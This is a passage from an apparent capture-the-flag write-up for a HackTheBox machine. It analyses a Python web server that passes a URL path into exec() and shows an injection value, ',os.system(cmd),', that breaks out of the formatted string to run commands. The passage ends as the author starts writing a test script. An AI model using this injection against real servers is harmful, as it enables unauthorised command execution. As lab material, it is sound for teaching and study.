 So apparently this is the entire script for the server. It's not well documented, this means that the few comments must be leftovers of a lazy (like me) programmer. Looking around there is one really **REALLY** interesting snippet.

```python
info = "output = 'Document: {}'" # Keep the output for later debug
exec(info.format(path)) # This is how you do string formatting, right?
```

Indeed, `exec()` allows one to execute a command. The added comments are a bit CTF like but still. This command is basically used to get `output = 'Document: path'`. Not sure why it was done this way. But stupider things have been done. So what it does is add the content of `path` to `info`. For example

```python
>>> path = "foo"
>>> info = "output = 'Document: {}'"
>>> res = info.format(path)
>>> print(res)
ouput = 'Document: foo'
```

We can therefore easily inject a command if we add an extract quote

```python
>>> path = "',os.system(cmd),'"
>>> info = "output = 'Document: {}'"
>>> res = info.format(path)
>>> print(res)
output = 'Document: ',os.system(cmd),''
```

and this last line is what is executed. Now we want to know how we could inject this string. The variable `path`, is given as an argument when the function `serveDoc()` is called. It is then formatted using `urllib.parse.unquote(path)`. Not sure yet what this does, but we'll find out. Earlier in the `class` we see that `serverDoc()` is called with `request.doc` as an argument which is placed in `path`. Tracing it back, the object request was given in the mother function as `handleRequest()` as `request`.  Moving up this object is set as `req = Request(data.decode())`. The class `Request` parses the url and then `split` is done in the function `parseRequest()`.  It is important to understand this script. So what we'll do is write our own with only the parts of interest. The question we ask ourselves is

> What string must we write in the url to get a command executable in `exec()`?

Before we write our script we need an example request. The easiest way is to fire up BurpSuite and intercept a request which we can set as a variable.

``http
GET /index.html HTTP/1.1
Host: obscure.htb:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

We want to inject code after the `/index.html`. Lets write our script (python 3.7)

```python
import socket
import threading
from datetime import datetime
import sys
import os
import mimetypes
```